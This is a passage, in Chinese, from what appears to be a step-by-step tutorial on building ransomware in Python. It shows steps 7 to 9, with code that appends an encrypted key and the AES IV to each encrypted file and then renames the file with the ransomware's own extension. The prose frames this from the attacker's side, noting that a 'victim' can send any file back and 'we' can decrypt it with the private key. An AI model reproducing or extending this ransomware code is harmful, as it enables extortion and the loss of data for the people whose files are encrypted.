 7.将加密的随机密钥附加到文件的末尾。

```
input_file.seek(0, os.SEEK_END)
input_file.write(encriptedKey.encode())
```

8.将 [AES IV(初始化向量)](https://en.wikipedia.org/wiki/Initialization_vector)附加到文件末尾。

```
input_file.seek(0, os.SEEK_END)
input_file.write(cipher_encrypt.iv)
```

9.重命名文件以识别它。

```
input_file.close()
 os.rename(file, file + "." + cryptoName)
```

![](img/bd9a9d3a2f5c183034897bd0e29eca39.png)

解密后文件结构的粗略模型

请注意，我们并不需要复制整个文件，我们只是在 file 对象上使用了`seek()`方法来导航字节，使这个过程尽可能快。这也将在解密函数中使用。

还要注意，由于我们在加密文件中写入了 AES IV 和加密密钥，我们不需要任何类型的 txt 文件来跟踪每个加密文件。受害者可以向我们发送任何文件，只要我们有用于特定二进制文件的私钥，我们就能解密它。
